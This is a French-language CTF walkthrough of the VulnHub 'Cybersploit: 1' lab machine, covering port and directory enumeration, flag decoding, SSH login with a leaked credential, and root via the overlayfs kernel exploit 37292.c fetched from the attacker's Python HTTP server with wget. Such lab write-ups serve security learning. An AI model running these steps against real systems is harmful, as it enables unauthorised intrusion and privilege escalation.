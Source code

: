 ```yaml
---
title: "CTF Cybersploit: 1"
date: 2021-05-31
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/cybersploit-1,506
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.1** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.36`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir Cybersploit1 && cd Cybersploit1`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -A -p- $IP -oN nmap.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hello Pentester!
```

On a un un serveur **SSH** sur le port **22** et un serveur **Apache** 2.2.22 sur le port **80**.

Astuce vous pouvez ajouter le domaine _cybersploit-1.home_ dans le fichier `/etc/hosts` avec **Vim** (ou un autre éditeur de texte).

```bash
$ sudo vim /etc/hosts
192.168.1.36    cybersploit-1.home
```

Avec **Gobuster**, on scan dossiers et pages présents sur le serveur **Apache**.

```bash
$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt,.xml,.js,.md,.log,.zip 
/index                (Status: 200) [Size: 2333]
/index.html           (Status: 200) [Size: 2333]
/robots               (Status: 200) [Size: 79]  
/robots.txt           (Status: 200) [Size: 79]  
/hacker               (Status: 200) [Size: 3757743]
```

Dans le fichier [robots.txt](http://cybersploit-1.home/robots.txt), on une chaine de caractère de type **base64** `R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9`.

```bash
$ echo 'R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9' | base64 -d
Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit}
```

On vient de découvrir le 1er flag. Dans le code source de la page d'accueil, on a un potentiel utilisateur "itsskv".

```txt
<!-------------username:itsskv--------------------->
```

## Pénétration

```bash
$ ssh itsskv@$IP
password: cybersploit{youtube.com/c/cybersploit}
```

```bash
$ cat flag2.txt 
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101
```

En convertissant de binaire vers texte (on trouve plein de convertisseurs sur Internet), on obtient le contenu du second flage ci-dessous.

```txt
good work !
flag2: cybersploit{https:t.me/cybersploit1}
```

Regardons la version du noyau **Linux**.

```bash
$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic
```

Après une recherche d'exploit via **searchsploit**, on en trouve un qui pourrait nous correspondre.

```bash
$ searchsploit linux kernel 3.13.0-32
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation  | linux/local/37292.c
```

On vérifie quand même la distribution **Linux** du serveur.

```bash
$ cat /etc/issue
Ubuntu 12.04.5 LTS \n \l
```

On est sur du **Ubuntu** 12.04.5 avec un kernel **Linux** 3.13.0, c'est exploitable. Avant de s'emballer, on vérifie si on peut utiliser le compilateur **GCC** (**G**NU **C**ompiler **C**ollection).

```bash
$ which gcc
/usr/bin/gcc
```

C'est tout bon. On va donc transférer l'exploit sur le serveur via un serveur HTTP sur **Python**.

```bash
$ searchsploit -p 37292
Path: /usr/share/exploitdb/exploits/linux/local/37292.c
$ cp /usr/share/exploitdb/exploits/linux/local/37292.c exploit.c
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

De retour sur le serveur, on se place dans le dossier "/tmp" et on récupère le fichier de l'exploit afin de le compiler et de l'exécuter.

```bash
$ cd /tmp
$ wget http://192.168.1.38:8000/exploit.c
$ gcc exploit.c -o exploit
$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
$ id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
```

Chouette, l'exploit a bien fonctionné car on est root de la machine. On trouve facilement le troisième et dernier flag.

```bash
$ cat /root/finalflag.txt
flag3: cybersploit{Z3X21CW42C4 many many congratulations !}
```
